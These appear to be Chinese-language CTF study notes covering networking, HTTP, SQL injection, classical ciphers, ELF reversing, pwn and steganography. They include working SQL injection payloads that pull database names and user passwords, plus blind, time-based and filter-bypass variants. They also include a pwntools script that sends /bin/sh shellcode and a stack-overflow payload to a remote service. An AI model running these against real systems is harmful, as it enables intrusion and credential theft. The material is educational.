




## Web

### IP

#### IPv4

- Internet Protocol version 4
- 由4个段组成，每个段 8 位，可以用任何表示 32 位整数的方式表示 IPv4 地址
    - 10.78.18.216 = 0xA4E12D8 = 172888792
    
    
    

#### IPv6

- Internet Protocol version 6
- 由8个段组成，每个段16位
    - [**2001:da8:e000:731a:ff00:0:0:642d**](http://[2001:da8:e000:731a:ff00::642d]/)
    - **连续的全 0 段可以省略：2001:da8:e000:731a:ff00::642d**

### TCP/UDP

#### 背景

- OSI模型和TCP/IP模型
正如我们写代码层层封装，计算机网络的总体架构也是分层的。这样每个层各司其职，下层上上层的基础设施，逐渐构建复杂的功能。
    - OSI 七层模型
        
        
        
    - TCP/IP 四层模型：广泛使用
    
    
    

#### TCP

- **传输控制协议 Transmission Control Protocol：面向连接的协议**
- 通过复杂的握手、确认、重传等机制保证数据的顺序和可靠性

#### UDP

- **用户数据报协议User Datagram Protocol：无连接；"send and forget"**
- 更简单且快速；单向传输，不保证顺序，不保证可靠性



#### 端口

- 软件层面的通信端点，与 IP 地址一起构成网络通信的基础端口号的范围是 0~65535
    - IP 地址识别机器，端口号识别软件（服务）
    - TCP 与 UDP 的端口号是分开的，即同一个端口号可以同时用于 TCP 和 UDP
    - 可以设置只监听（blind）某个 IP 地址的某个端口号
- 端口号的范围是 0~65535
    - **其中 0~1023 为系统保留端口，一般不用于通用服务**
- 一般情况下，不同的软件使用不同的端口号
    - 通过端口号可以区分不同的服务，例如 HTTP 的分配端口是 TCP 80
    - 即 [http://10.78.18.216](http://10.78.18.216/) 就是 [http://10.78.18.216:80](http://10.78.18.216/)
    - 否则需要写明端口号，如 [http://10.78.18.216:39200](http://10.78.18.216:39200/)

### 域名与DNS

- 域名Domain Name用于标识互联网上的计算机
    - 由一串用 . 分隔的字符串组成，例如 example.com
    - 最右侧的部分称为顶级域名(Top-Level Domain)：.com .net .org .cn 等
    - 从右至左依次为二级、三级域名等：www.example.com-
- 如何拥有一个域名？
    - 在域名注册商处购买，如阿里云、腾讯云、Cloudflare 等
    根据域名的 TLD、长度等因素，价格从几元到几千元不等（每年）
- 域名下面可以有任意多条 DNS 记录
    - DNS 服务商可以和域名注册商不同
    - 记录了如何处理对域名的请求，如 IP 地址、邮箱服务器等
    - 将域名映射到 IPv4 的记录称为 A 记录
    - 还有 AAAA（IPv6）、MX（邮箱）、CNAME（别名）、TXT（文本信息）等
    - 记录的 TTL（Time To Live）表示该记录的缓存时间
    
    ```bash
    $ nslookup -query=txt [45gfg9.net](http://45gfg9.net/)
    Server:     10.10.0.21
    Address:    10.10.0.21#53
    
    Non-authoritative answer:
    [45gfg9.net](http://45gfg9.net/)  text = "v=spf1 include:5943b80cxdpydy4.spf.skiff.com -all"
    [45gfg9.net](http://45gfg9.net/)  text = "oRAKQGGkRmqa26Gq40GEWu81UGBOoW3TjU8ACkgnp3+gGvKXhDlmCYScB80jfYu+Y+zY0Q3u125wHUcssCahxBnn+We9f7CXMEEHa1xIe825WAixRAeFmx65zuUf31AhVfafcUa3jlGpVx3gvKzwJdghXu5LaHADexzYpD12KCDEuXBCgvxmXYSMi40pfvjVDeZoYY8QG9sa/bjAljSULg=="
    ```
    

#### HTTP协议

- 超文本传输协议HyperText Transfer Protocol
- 是基于文本的协议，用于在客户端和服务器之间传输网页

```bash
GET / HTTP/1.1
Host: www.example.com
```

#### 架构

**客户端：你的浏览器**

- 可视化：图形、图片、布局…… HTML + CSS
- 人机交互逻辑：按钮点击，登录，发送请求……JS
- 缓存、Cookie
- 安全：不能将私密的、不该获取的信息传出去（比如 Cookie），不能为所欲为（比如注销其他网站的账号）

**服务端：某台或很多台服务器**

- 认证与鉴权：如何证明你是你
- Authentication
- Authorization
- 处理请求：用户需要做什么？将结果返回客户端
- 服务器也可以有不同分工：前端后端、数据库……
- 安全：用户不能获得不该获取的信息（比如 flag），不能为所欲为（比如任意代码执行）

#### URL：统一资源定位符

[https://slides.tonycrane.cc/PracticalSkillsTutorial/2023-fall-ckc/lec6/lec6/URI_syntax_diagram.svg.avif](https://slides.tonycrane.cc/PracticalSkillsTutorial/2023-fall-ckc/lec6/lec6/URI_syntax_diagram.svg.avif)

- URI（统一资源标识符）的一种，用于定位互联网上的资源

- 协议：https

- 主机：www.example.com

- 端口：443

- 路径：/path/to/resource

- 查询：query=1

- 片段：frag
- URL 中只能包含 ASCII 字符，由百分号编码定义的字符集
例如空格编码为 %20，或有些情况下编码为 +

#### 请求方法

- [HTTP 请求方法 - MDN Web Docs](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Methods)

```bash
nc httpbin.org 80

GET /get?hello=world HTTP/1.1
Host: httpbin.org
```

如同直接访问 http://httpbin.org/get?hello=world

- HTTP/1.x 请求的第一行由请求方法、路径和协议版本组成
    - GET：最常用，用于获取资源，不能有请求体
    - POST：用于提交数据
    - PUT 更新资源；DELETE 删除资源；HEAD 获取资源的头部信息；等等
    - 如何解释请求方法由服务器决定，不同的服务器可能有不同的实现

#### 标头，请求体，响应体

```bash
POST /post HTTP/1.1
Host: httpbin.org
Content-Length: 12
Connection: close

hello server
```

- [**HTTP 标头 - MDN Web Docs**](https://developer.mozilla.org/zh-CN/docs/web/http/headers)
- 标头（Header）是由键值对组成的文本，用于描述请求或响应的属性
    - 以冒号分隔键和值，以换行符分隔不同的键值对
    - 以空行分隔标头和正文（请求体 / 响应体）
    - 不同标头有不同的含义，如 Content-Length（正文的长度）
- 可以在浏览器的开发者工具中查看所有的 HTTP 请求及其所有内容

#### More

- nc 直接操作TCP流，不会自动处理HTTP协议，所以需要手动输入内容
    - 有更方便的命令行工具：curl、wget等
    - 也可以用浏览器自带的开发者工具

```bash
## 默认进行 GET 请求
curl "http://httpbin.org/get?hello=world"

## -i 显示响应头
curl -i http://10.78.18.216:39200

## -v 显示详细信息，-X 指定请求方法，-d 指定请求体
curl -v -X POST http://httpbin.org/post -d 'hello server'

```

### SQL注入

#### MySQL基础
- mysql -u root -p 使用密码登录
- SHOW DATABASES;
- USE db_name;
- SHOW TABLES;
- SHOW COLUMNS FROM table_name;

##### SELECT
```sql
SELECT field1, field2,...fieldN (FROM table_name1, table_name2... 
[WHERE condition1 [AND [OR]] condition2...)
```

Examples:
```
SELECT SLEEP(2);
SELECT 1, DATABASE(), VERSION(), USER(), ASCII('A'), CONCAT('A','B');
```

---

```sql
SELECT col_name FROM table_name /*从特定表中获取特定列*/
SELECT * FROM table_name /*从特定表中获取全部列*/
SELECT * FROM table_name WHERE col_name = XXX /*在限定条件下取数据*/ 
SELECT * FROM table_name ORDER BY col_name(col_index) /*根据列名或索引排序*/
SELECT col_name1, col_name2… FROM table_name LIMIT N, M  /*从第N(从0开始)条开始返回M条数据*/
SELECT col_name1, col_name2… FROM table_name LIMIT M OFFSET N  /*也可以这么写*/
SELECT concat(col_name1, col_name2…) FROM table_name /*整合列数据*/
SELECT group_concat(col_name1, col_name2…) FROM table_name /*整合行、列数据*/
```
##### 注释

```
/*
这是注释，支持多行
*/
-- 这也是注释
## 这还是注释
```
##### 其他

- 一些常用的URL编码:  
Space: %20  
\#: 	%23  
':	%27  
":	%22  
+:	%2B  
`#+$-_.!*()` 浏览器地址栏默认不编码，但是不意味着不能编码

#### 注入技巧

##### 判断为数字型还是字符型

```sql
传入id=2-1
如果是数字型，语句应该变为：
SELECT col_name(…) FROM table_name WHERE id = 2-1 
等价于：
SELECT col_name(…) FROM table_name WHERE id = 1 
那么就应该能正常返回id=1的页面！
而如果是字符型，语句应该变为：
SELECT col_name(…) FROM table_name WHERE id = '2-1'
会因为查询不到内容
```

##### 联合查询

```sql
SELECT field1, …, fieldN FROM table_name UNION SELECT field1*, …, fieldN* FROM table_name*;
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT DATABASE(), USER(),  
```
但利用联合查询前需要保证前后列数相同，我们也需要判断原sql查询的列数
我们可以尝试构造
```sql
SELECT col_name1, …, col_name FROM table_name WHERE id = 1 ORDER BY M;
```

M<=N时，能有正常的返回
M>N时会报错
从而可以判断查询的列数！

当然，一个个试也可以
```sql
SELECT col_name1, …, col_name FROM table_name WHERE id = 1 UNION SELECT 1, 2, …;
```

在MySQL中，所有的数据库名存放在information_schema.schemata的schema_name字段下
```sql
SELECT schema_name FROM information_schema.schemata;

所有的表名存放在information_schema.tables的table_name字段下，可以以table_schema为条件筛选
SELECT table_name FROM information_schema.tables WHERE table_schema='db_name';

所有的列名存放在information_schema.columns的column_name字段下，可以以table_schema和table_name为条件筛选
SELECT column_name FROM information_schema.columns WHERE table_name='table_name' AND table_schema='db_name';

可以构造
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT group_concat(schema_name), 2, 3 FROM information_schema.schemata;
获取所有数据库信息，以此类推

获取到表、列名后，可以获取其他数据。这里以users表中的passwd字段为例
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT group_concat(passwd), 2, 3 FROM users;
如果想要分行获取，也可以借助LIMIT
SELECT col_name1, …, col_nameN FROM table_name WHERE id = 3 UNION SELECT passwd, 2, 3 FROM users LIMIT 0, 1;

```

##### 无回显的注入

- 提取字符进行判断
```sql
例如传入uname=a' or ASCII(SUBSTR(DATABASE(), 1, 1))>0#
SQL语句变为
SELECT col_name(…) FROM table_name WHERE username = 'a' or ASCII(SUBSTR(DATABASE(), 1, 1))>0#'
返回User Found，说明DATABASE()的第一位的ASCII码>0
多次重复即可得到数据

也可以查找其他表的数据
SELECT col_name(…) FROM table_name WHERE username = 'a' or ASCII(SUBSTR((SELECT GROUP_CONCAT(passwd) FROM users), 1, 1))>0#'
道理是一样的
```
- 利用延时
```sql
IF(condition, expr1, expr2)
如果condition为真就执行expr1，反之执行expr2

和SLEEP()配合，就能通过测量响应时间来获取数据！

SELECT col_name(…) FROM table_name WHERE username = 'admin' and IF(ASCII(SUBSTR(DATABASE(), 1, 1))>0, SLEEP(0), SLEEP(2))#'

如果延时超过2秒，说明条件为假，反之为真
```
##### 绕过

针对关键字/正则匹配

1. 大小写
2. 利用等价命令 比如 OR->||, SPACE->/**/, ORDER BY->GROUP BY …
3. 如果只是单纯删去关键字，且只删一次，可以嵌套绕过，比如UNION是关键字会被删除，那么传入UNUNIONION就会被删成UNION，从而注入

针对语义匹配
相对难度较大，只能利用语言特性把语义检测绕晕。常见办法是嵌套注释符让其以为全部内容都被注释了。

奇技淫巧：
1. 超长字符串绕过
2. 多次编码(需要服务端有相应解码功能)
3. %00截断/换行截断
4. 改变请求方式 GET->POST, ?a=1 -> /a/1

##### Python相关

- 利用requests库来发送请求
```python
import requests
url = 'https://www.zju.edu.cn'
sess = requests.session()
r = sess.get(url)
headers = {
    'Cookies':'...'
}
data = {
    "...":"..."
}
r = sess.post(url,headers=headers,data=data)
```

- 利用pwntools中的**remote**来与远程服务器交互，发送一些**不可见字符**等
```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'

p = remote('127.0.0.1', int(input()))

sc = b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'

pause()

p.sendafter("what's your name:",sc)

address = 0x20000+0x1000*int(input())

length = 0x48

payload = length*b"A"+p64(address)

p.sendafter("try to overflow me~",payload)

p.interactive()
```

## Crypto

### 古典密码

#### 凯撒密码

凯撒密码（Caesar）加密时会将明文中的 每个字母 都按照其在字母表中的顺序向后（或向前）移动固定数目（循环移动）作为密文。例如，当偏移量是左移 3 的时候（解密时的密钥就是 3）：

```
明文字母表：ABCDEFGHIJKLMNOPQRSTUVWXYZ
密文字母表：DEFGHIJKLMNOPQRSTUVWXYZABC
```

#### Vigenere
维吉尼亚密码（Vigenere）是使用一系列凯撒密码组成密码字母表的加密算法，属于多表密码的一种简单形式。


- 对于类Vigenere密码的破解
1. 对于大量出现的常见单词来进行推测，如the,and等
2. Vigenere加密会有周期性，那么相同密文的索引值的公因数就是密文长度
3. 确定密文长度后，然后根据推测的明文和已知的密文来反推密钥
4. 确定几位密钥后，我们就按密钥长度将全文进行划分，然后利用密钥把每组的密文翻译成明文，再根据单词常识去猜测附近明文

#### Hill

希尔密码（Hill）使用每个字母在字母表中的顺序作为其对应的数字，即 A=0，B=1，C=2 等，然后将明文转化为 n 维向量，跟一个 n × n 的矩阵相乘，再将得出的结果模 26。注意用作加密的矩阵（即密匙）必须是可逆的，否则就不可能解码。只有矩阵的行列式和 26 互质，才是可逆的。

- E.g:
我们有明文`ACT`，转成矩阵

$$
\left[
\begin{matrix}
0\\
2\\
9\\
\end{matrix}
\right]
$$

假设密钥是：

$$
\left[
\begin{matrix}
6 & 24 & 1\\
13 & 16 & 10\\
20 & 17 & 15\\
\end{matrix}
\right]
$$

加密过程为：

$$
\left[
\begin{matrix}
0\\
2\\
9\\
\end{matrix}
\right]
\left[
\begin{matrix}
6 & 24 & 1\\
13 & 16 & 10\\
20 & 17 & 15\\
\end{matrix}
\right]
\equiv
\left[
\begin{matrix}
67\\
222\\
319\\
\end{matrix}
\right]
\equiv
\left[
\begin{matrix}
15\\
14\\
7\\
\end{matrix}
\right]
\text{mod 26}
$$

密文即为：`POH`

## Reverse
### 从程序到可执行文件




### 检视ELF文件
- file
    - `file`命令用于确定给定文件的类型
- objdump
    - `objdump -d hello.o | less`
    - `objdump`命令用于显示二进制文件的信息，通过-d选项来进行反汇编的得到汇编语言结果，hello.o是要处理的目标文件
- readelf
    - `readelf -a program | less`
    -  `readelf`是一个工具，用于显示 ELF 文件格式的信息
    - `-a`显示所有可用的信息，包括文件头、节头、版本、架构、大小端序

### ELF的编译、链接
- 编译（汇编）：从源文件到目标文件
    - 预处理：包含**头文件替换，宏展开**;`gcc -E hello.c -o hello.c.i`
    - 编译：将预处理后的源代码转换为**汇编语言**，`gcc -S hello.c -o hello.s`
    - 汇编：`as hello.s -o hello.o`
    - `.s`为汇编语言源代码文件，`.o`为目标文件，包含了从.s文件经过汇编器处理后生成的机器语言代码
- 链接：从目标文件到可执行文件

链接的部分暂略过

### ELF程序的逆向

#### ELF 的静态逆向: 反汇编器与反编译器
- 反汇编:机器指令 => 汇编指令(查表、准确)
    - objdump
- 反编译:汇编指令 => 编程语言(分析/特征匹配/启发式 ... 、往往不准确)
    - IDA pro
    - Ghidra 

## Pwn
### 代码注入漏洞
#### shellcode
- 以inject_me为例
    - 题目给定了一段可读可写可执行的内存，程序将会读取我们的输入并写入这段内存中，然后通过函数指针来实现想要的效果——我们要将**机器码**作为STDIN
    - 便捷方法，用c写一个函数，然后编译汇编得到机器码
    - `gcc -O2 add.c -o add.s`选择二级优化得到更简洁的汇编代码，然后`as add.s -o add.o`得到机器码
    
    - 最后利用python传入`add_code=b'\xf3\x0f\x1e\xfa\x8d\x04\x37\xc3'`
- 同样的inject_me，由于给定的这段内存很危险，我们就可以用来执行**sh()**命令，只需要传入相应的机器码即可（可以用**pwntools**中的**shellcraft**或者是自己编写**汇编代码**后汇编）
- 注意：不同**架构**对应的shellcode也不同

### 栈溢出
- 栈溢出操作的用途
    
- 栈从高地址->低地址
- \$rsp 栈顶指针，\$rbp 栈底指针
- 函数通过在栈中取用一段内存空间来存放临时变量
    
- 应用例：
    - 将password内容覆盖，以实现验证通过
    - 将函数返回的地址修改（ret指针），以跳转到另一个函数

## Misc

### 编解码

常见的字符编码：

- ASCII：一共 128 个项，即每个字符可以用一个 7 位的 01 串表示（或一字节）
- Latin-1（ISO-8859-1）：扩展了 ASCII，一共 256 个项
- 利用 Unicode 字符集的一系列编码
    - UTF-8 / UTF-16 / UTF-32 / UCS
- 中国国标字符集系列编码
    - GB 2312 / GBK / GB 18030-2022

乱码的原因:  
**几个字符集不兼容的部分互相编解码**，常见的：

- 用 GBK 解码 UTF-8 编码的文本
- 用 UTF-8 解码 GBK 编码的文本
- 用 latin-1 解码 UTF-8 编码的文本
- 用 latin-1 解码 GBK 编码的文本
- 先用 GBK 解码 UTF-8 编码的文本，再用 UTF-8 解码前面的结果
- 先用 UTF-8 解码 GBK 编码的文本，再用 GBK 解码前面的结果
    

#### Base编码系列
- Base16：即 16 进制表示字节流，长度翻倍
- Base32：按照 5 bit 一组（每个 0-31），按照字符表（A-Z2-7）映射
    - 结果长度必须是 5 的倍数，不足的用 = 不齐（明显特征）
- Base64：按照 6 bit 一组，按照字符表映射（最常用）
    - 标准字符表：A-Za-z0-9+/
    - 另有多种常用字符表，如 URL 安全字符表：A-Za-z0-9-_
    - 结果长度必须是 4 的倍数，不足的用 = 不齐（1~2 个，明显特征）

### 文件、图像隐写

#### 文件系统基础

如何判断文件的类型

- 拓展名
    - .jpg .bmp .gif .wav ...
    - 是文件名的一部分，可以随意修改
    - （在一些桌面系统下）决定了打开文件的默认程序
- 内容
    - 通过文件内容来识别文件类型
    - file命令
    - 不同文件类型有各自独特的**魔数（magic number）**
- 常见文件的magic number：

| 文件类型 | 文件头 | 对应ASCII |
|--------|--------|--------|
| JPEG | FF D8 FF | ... |
| PNG |89 50 4E 47 0D 0A 1A 0A|.PNG....|
| GIF |47 49 46 38 39 61	|GIF89a|
|PDF|25 50 44 46	|%PDF|
|ZIP|50 4B 03 04	|PK..|
|RAR|52 61 72 21	|Rar!|
|7zip|37 7A BC AF 27 1C	|7z..'.|
|WAV|52 49 46 46	|RIFF|

- 利用binwalk或者foremost来分离文件末尾附加内容

#### 图像隐写基础技术

- 文件末尾添加数据
    - exiftool 识别短数据，或者十六进制编辑器直接观察
    - binwalk 识别叠加文件，foremost 提取
    - 图像末尾叠加一个压缩包，就是所谓的“图种”
        - 修改后缀名可能可以解压（部分解压软件会忽略前面的图像）
        - 其实不如直接分离
- 直接利用元信息
    - exiftool 即可读取

##### LSB隐写
- 人眼对于微小的颜色变化不敏感
    - 对于 8 bit 的颜色值，最低位的变化不会被察觉
    - 可以随意修改最低位，而不影响图像的显示效果
- LSB 隐写将颜色通道的最低位用来编码信息
    - 图像：stegsolve / CyberChef View Bit Plane
    - 数据：stegsolve / CyberChef Extract LSB / zsteg / PIL

##### PIL图像处理基础
- PIL（Python Imaging Library）是 Python 中非常常用的图像处理库
- 基本用法：
    - from PIL import Image 导入和图像读写处理有关的 Image 类
    - img = Image.open(file_name) 打开图像
    - img.show() 显示图像；img.save(file_name) 保存图像
    - img.size 图像大小，img.mode 图像模式
    - img.convert(mode) 转换图像模式
    - img.getpixel((x, y)) 获取像素点颜色
    - img.putpixel((x, y), color) 设置像素点颜色
    - np.array(img) 将图像转换为 numpy 数组

#### 进阶隐写技术
##### 图像大小修改
- PNG 图像按行进行像素数据的压缩，以及存储 / 读取
- 当解码时已经达到了 IHDR 中规定的大小就会结束
- 因此题目可能会故意修改 IHDR 中的高度数据，使之显示不全
- 恢复的话更改高度即可，同时注意 crc 校验码，否则可能报错
    - binascii.crc32(data)，data 为从 IHDR 开始的数据


##### ZIP伪加密
- ZIP 也使用分段的方式存储数据
    - 本地文件记录 50 4B 03 04，可以有多个  
    - 中央目录记录 50 4B 01 02，可以有多个
    - 中央目录结束 50 4B 05 06
- 在中央目录记录中有一个字段记录加密方式
    - 如果不为 0 表示有加密
- 其他字段，如最小版本
    - 可能修改为一个不合法的值，无法用解压软件解压
